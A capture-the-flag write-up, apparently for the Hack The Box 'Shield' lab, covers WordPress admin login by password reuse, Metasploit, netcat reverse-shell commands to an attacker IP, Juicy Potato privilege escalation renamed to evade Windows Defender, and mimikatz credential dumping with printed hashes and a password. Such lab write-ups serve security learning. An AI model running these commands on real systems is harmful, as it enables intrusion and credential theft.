










# Starting Point - Shield

## Enumeration

```
PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   syn-ack MySQL (unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Examining Port 80 - Windows Server Internet Information Service (IIS)



Navigating to Port 80, we can see the default IIS starting page (which is typical for Windows Server hosted websites). So we probably have to find the real application/directories by ourselves.

Therefore, we gonna use a tool like `gobuster`:
```
gobuster dir -u "http://10.10.10.29" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It relatively quickly finds a directory called `/wordpress`. Let's head over to this.


The wordpress website is apparently a company's website that deals with electric trucks. It has two big buttons, which both have no functionality. Furthermore, it has an additional tab called `BLOG`, which leads us to their blog (also implemented with wordpress).



On the blog-website, we also have the possibility to Login, which leads us to following website:



I tried bruteforcing the login with username `admin`, as Wordpress has the bad behaviour of leaking usernames. It basically gives you a different error message, if you guessed the username correctly.





Unfortunately, I had no success in doing so. After a few hours of research, I took a look at the official writeup of the room... In the writeup they state: `Since we have already acquired the password P@s5w0rd!, we can try to login to the WordPress site.`..Wait. Where and how did we acquire that exactly? That's what I asked in the official Discord server. Their answer was pretty much like "That's the password of the DB user in the previous machine! It's obvious that you should test that password for the Wordpress admin in this machine" .... riiiiiiight.

Anyway...

## Exploitation
Now that we are logged in with the **obvious** credentials `admin:P@s5w0rd!`, and have full access to the Wordpress admin dashboard, we can setup a reverse shell to the server. We gonna use `metasploit` for that, as windows systems are always a bit tricky.

So we open `msfconsole` and search for a suiteable module.



We type `use 0` to select this module. Afterwards we type `show options` to see all the options we can and must set.



After configuring it for our machine like that:



we can start the exploit.



By typing `sysinfo` we get some information about the system:

```
meterpreter > sysinfo
Computer    : SHIELD
OS          : Windows NT SHIELD 10.0 build 14393 (Windows Server 2016) i586
Meterpreter : php/windows
```

We see that this is a rather old Windows Server version. Let's see if it has any know vulnerabilities regarding privilege escalation.

And indeed! It's called `Rotten Potato` ([Github](https://github.com/foxglovesec/RottenPotato), [Youtube](https://www.youtube.com/watch?v=8Wjs__mWOKI)). For our case, we will use a slight modification of that exploit called `Juicy Potato` ([Github]( https://github.com/ohpe/juicy-potato/)).

### Upload Netcat

Download `nc.exe` from [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Afterwards, change the directory in your meterpreter session to 
```
C:/inetpub/wwwroot/wordpress/wp-content/uploads
```
Then upload the `nc.exe` file. To execute it use following command:

```
msf > execute -f nc.exe -a "-e cmd.exe 10.10.14.125 1234"
```

This only works ofc, if you have a nc listerner running.

### Prepare the Juicy Potato Exploit

We can create a batch file that will be executed by the exploit and return a SYSTEM shell. Let's add the following contents to `shell.bat` (run it from the nc reverse shell).

```
echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.125 1111 > shell.bat
```

Now start another nc listener on your local machine with the port specified in `shell.bat`.

Afterwards, we upload the Juicy Pototo exe with an uncommon name (I chose jp.exe), so that the windows defender won't detect it.

The final step is to execute the Juicy Potato exe with the previously generated `shell.bat` file like so:

```
jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
```



The root.txt is located in C:\Users\Administrator\Desktop: `6e9a9fdc6f64e410a68b847bb4b404fa`

## Post Exploitation

[Mimikatz](https://github.com/sebastiendamaye/hackthebox/raw/master/01-starting_point/04-Shield/files/mimikatz.exe) can be used to find additional cached passwords on the machine. This might be useful for the next challenge. 

So we upload the exe from the meterpreter session and execute it:

```
meterpreter > upload mimikatz.exe
```

Then do following in the System shell:

```
$ .\mimikatz.exe

$ mimikatz> sekurlsa::logonpasswords

...

Authentication Id : 0 ; 216075 (00000000:00034c0b)                                       
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 1/4/2021 11:12:16 AM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105                       
        msv :                               
         [00000003] Primary
         * Username : sandra
         * Domain   : MEGACORP
         * NTLM     : 29ab86c5c4d2aab957763e5c1720486d                                   
         * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38                           
         * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc                                   
        tspkg :                             
        wdigest :                           
         * Username : sandra
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :                          
         * Username : sandra                <-- USERNAME
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!         <-- PASSWORD
        ssp :                               
        credman : 
        
...
```

The found credentials are `sandra:Password1234!`.